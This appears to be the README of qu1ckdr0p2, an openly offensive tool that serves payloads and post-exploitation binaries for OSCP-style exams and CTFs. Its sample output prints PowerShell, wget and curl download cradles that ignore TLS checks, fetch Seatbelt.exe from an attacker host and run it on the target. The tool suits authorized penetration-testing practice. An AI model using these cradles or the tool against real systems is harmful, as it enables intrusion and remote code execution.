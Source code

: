 <h1 align="center">
    <img src="img/quick_drop_small.png"></img>

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white)
![Visual Studio Code](https://img.shields.io/badge/Visual%20Studio%20Code-0078d7.svg?style=for-the-badge&logo=visual-studio-code&logoColor=white)
![Prettier](https://img.shields.io/badge/prettier-1A2C34?style=for-the-badge&logo=prettier&logoColor=F7BA3E)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=for-the-badge)](https://opensource.org/licenses/MIT)


</h1>

## About
Rapidly host payloads and post-exploitation bins over HTTP or HTTPS. 

Designed to be used on exams like OSCP / PNPT or CTFs HTB / etc.

Pull requests and issues welcome. As are any contributions.
Qu1ckdr0p2 comes with an alias and search feature. The tools are located in the <a href ="https://github.com/byinarie/qu1ckdr0p2-tools">qu1ckdr0p2-tools</a> repository.

By default it will generate a self-signed certificate to use when using the `--https` option, priority is also given to the `tun0` interface when the webserver is running, otherwise it will use `eth0`.

The <a href="https://github.com/byinarie/qu1ckdr0p2-tools/blob/main/config/common.ini">common.ini</a> defines the mapped aliases used within the `--search and -u` options.

When the webserver is running there are several download cradles printed to the screen to copy and paste.

## Install
#### Using pip is the only supported way of installing. Cloning this repository to install will probably break something
```zsh
pip3 install qu1ckdr0p2
serv init --update
```

## Usage
### Serv a single file located in your current working directory
```zsh
serv serve --help
serv serve -f implant.bin --https 443
serv serve -f file.example --http 8080
```

### Serv a file from a mapped alias
The mapped alias numbers for the `-u` option are dynamic so you don't have to remember specific numbers or ever type out a tool name.
```zsh
$ serv serve --search seatbelt
[→] Path: ~/.qu1ckdr0p2/windows/Seatbelt.exe
[→] Alias: seatbelt
[→] Use: 1

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_Any/Seatbelt.exe
[→] Alias: seatbelt_net40_any
[→] Use: 2

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_x64/Seatbelt.exe
[→] Alias: seatbelt_net40_x64
[→] Use: 3

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_x86/Seatbelt.exe
[→] Alias: seatbelt_net40_x86
[→] Use: 4

(...)

$ serv serve --search seatbelt -u 2
[→] Serving: ../../../.qu1ckdr0p2/windows/NetFramework_4.0_Any/Seatbelt.exe
[→] Protocol: https
[→] IP address: 192.168.1.5
[→] Port: 443
[→] Interface: eth0
[→] Using cert: /home/byinarie/.qu1ckdr0p2/certs/cert.pem
[→] Using key: /home/byinarie/.qu1ckdr0p2/certs/key.pem
[→] CTRL+C to quit

[→] URL: https://192.168.1.5:443/Seatbelt.exe

[↓] csharp_ignore_tls:
Add-Type -TypeDefinition "using System.Net;using System.Security.Cryptography.X509Certificates;public class SSLValidator {public static void Ignore() {ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;}}" -Language CSharp; [SSLValidator]::Ignore(); $webclient = New-Object System.Net.WebClient; $webclient.DownloadFile('https://192.168.1.5:443/Seatbelt.exe', 'c:\windows\temp\Seatbelt.exe');Start-Process 'c:\windows\temp\Seatbelt.exe'

[↓] wget_ignore_tls:
wget --no-check-certificate https://192.168.1.5:443/Seatbelt.exe -O /tmp/Seatbelt.exe && chmod +x /tmp/Seatbelt.exe && /tmp/Seatbelt.exe

[↓] curl_ignore_tls:
curl -k https://192.168.1.5:443/Seatbelt.exe -o /tmp/Seatbelt.exe && chmod +x /tmp/Seatbelt.exe && /tmp/Seatbelt.exe

[↓] powershell_ignore_tls:
$AllProtocols = [System.Net.SecurityProtocolType]'Ssl3,Tls,Tls11,Tls12'; [System.Net.ServicePointManager]::SecurityProtocol = $AllProtocols; $WebClient = New-Object System.Net.WebClient; $WebClient.DownloadFile('https://192.168.1.5:443/Seatbelt.exe', 'c:\windows\temp\Seatbelt.exe'); Start-Process 'c:\windows\temp\Seatbelt.exe'
```




## License

MIT

---

